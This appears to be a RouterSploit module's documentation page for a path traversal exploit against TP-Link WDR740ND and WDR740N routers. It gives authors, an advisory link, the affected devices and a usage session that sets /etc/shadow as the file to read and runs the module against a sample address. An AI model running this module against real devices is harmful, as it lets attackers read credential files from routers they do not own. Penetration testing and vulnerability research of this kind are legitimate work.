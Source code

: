 # TP-Link WDR740ND & WDR740N Path Traversal

## Description
Exploits TP-Link WDR740ND and WDR740N path traversal vulnerabilitythat allowsto read files from the filesystem.

## Authors
* websec.ca # vulnerability discovery
* Marcin Bury <marcin.bury[at]reverse-shell.com> # routersploit module

## References
* [http://www.websec.mx/publicacion/advisories/tplink-wdr740-path-traversal](http://www.websec.mx/publicacion/advisories/tplink-wdr740-path-traversal)

## Vulnerable devices
* TP-Link WDR740ND
* TP-Link WDR740N

## Usage
```
rsf > use exploits/tplink/wdr740nd_wdr740n_path_traversal
rsf (TP-Link WDR740ND & WDR740N Path Traversal) > show options

Target options:

   Name       Current settings     Description
   ----       ----------------     -----------
   target                          Target address e.g. http://192.168.1.1
   port       80                   Target port


Module options:

   Name         Current settings     Description
   ----         ----------------     -----------
   filename     /etc/shadow          File to read from the filesystem


rsf (TP-Link WDR740ND & WDR740N Path Traversal) > set target 192.168.1.1
[+] {'target': '192.168.1.1'}
rsf (TP-Link WDR740ND & WDR740N Path Traversal) > run
[*] Running module...
```
